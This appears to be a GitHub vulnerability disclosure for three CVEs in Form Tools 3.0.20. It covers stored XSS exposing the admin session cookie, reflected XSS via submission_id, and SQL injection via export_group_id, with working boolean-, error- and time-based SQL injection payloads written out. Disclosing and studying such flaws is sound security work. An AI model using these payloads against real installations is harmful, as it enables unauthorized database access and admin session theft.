 # Form Tools - Version 3.0.20

### CVE-2021-38143 - Stored XSS
An issue was discovered in Form Tools through 3.0.20.
When an administrator creates a customer account, it is possible for the customer to log in and proceed with a change of name and last name. However, these fields are vulnerable to XSS payload insertion, being triggered in the admin panel when the admin tries to see the client list. This type of XSS (Stored) can lead to the extraction of the PHPSESSID cookie belonging to the admin.

###

Insertion of the payload in the "First Name" (client account) field:

![alt text](https://github.com/bernardofsr/CVEs-With-PoC/blob/main/PoCs/Form%20Tools/images/StoredXSS.png?raw=true "Payload on 'First Name'")

###
The administrator logs in and opens the page with the list of clients:

![alt text](https://github.com/bernardofsr/CVEs-With-PoC/blob/main/PoCs/Form%20Tools/images/StoredXSS2.png?raw=true "Payload triggered")

XSS triggered and exposing the admin cookie.

##

### CVE-2021-38144 - Reflected XSS
An issue was discovered in Form Tools through 3.0.20.
A low-privileged user can trigger Reflected XSS when a viewing form via the submission_id parameter, e.g., ```clients/forms/edit_submission.php?form_id=1&view_id=1&submission_id=[XSS] ```

![alt text](https://github.com/bernardofsr/CVEs-With-PoC/blob/main/PoCs/Form%20Tools/images/ReflectedXSS.png?raw=true "Triggered Reflected XSS")


##

### CVE-2021-38145 - SQL Injection
An issue was discovered in Form Tools through 3.0.20.
SQL Injection can occur via the **export_group_id** field when a low-privileged user (client) try to export a form with data, e.g., manipulation of ```modules/export_manager/export.php?export_group_id=1&export_group_1_results=all&export_type_id=1```

Create data table export using a normal user account by clicking *display*:

![alt text](https://github.com/bernardofsr/CVEs-With-PoC/blob/main/PoCs/Form%20Tools/images/SQLI1.png?raw=true "Special character insertion")

###
Insertion of the special character **'** to test for possible break in the query and cause database errors:

![alt text](https://github.com/bernardofsr/CVEs-With-PoC/blob/main/PoCs/Form%20Tools/images/SQLI2.png?raw=true "Special character insertion")

###

The endpoint is vulnerable to the following types of SQL Injection attacks:

```
> Parameter: export_group_id (GET)
     
     Type: boolean-based blind
     Title: AND boolean-based blind - WHERE or HAVING clause
     Payload: export_group_id=1 AND 5636=5636&export_group_1_results=all&export_type_id=1

     Type: error-based
     Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
     Payload: export_group_id=1 AND (SELECT 4229 FROM(SELECT COUNT(*),CONCAT(0x717a627171,(SELECT (ELT(4229=4229,1))
     ),0x716b787171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&export_group_1_results=all&
     export_type_id=1

     Type: time-based blind
     Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
     Payload: export_group_id=1 AND (SELECT 1946 FROM (SELECT(SLEEP(5)))nmeR)&export_group_1_results=all&
     export_type_id=1
```